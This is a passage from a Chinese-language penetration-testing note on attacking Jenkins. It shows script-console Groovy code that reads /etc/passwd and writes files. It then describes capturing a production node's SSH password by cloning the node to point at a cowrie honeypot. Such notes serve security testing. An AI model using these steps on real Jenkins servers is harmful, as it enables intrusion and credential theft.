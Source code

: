 ### 文件

```
读
new File('/etc/passwd').text

写
new File('/tmp/file.txt').withWriter('UTF-8') { writer ->
    try {
        writer << 'hello world\n'
    } finally {
        writer.close()
    }
}
```

其他一些语法参考  https://github.com/samrocketman/jenkins-script-console-scripts

## 0x05 新建 Node 获取 ssh 密码 (prod 利用)

使用 [cowrie](https://github.com/cowrie/cowrie) 蜜罐或任意 ssh 蜜罐

```
docker run -p 2222:2222 cowrie/cowrie
```

新建一个节点复制目标节点

![image-20240328152250208](attachments/image-20240328152250208.png)
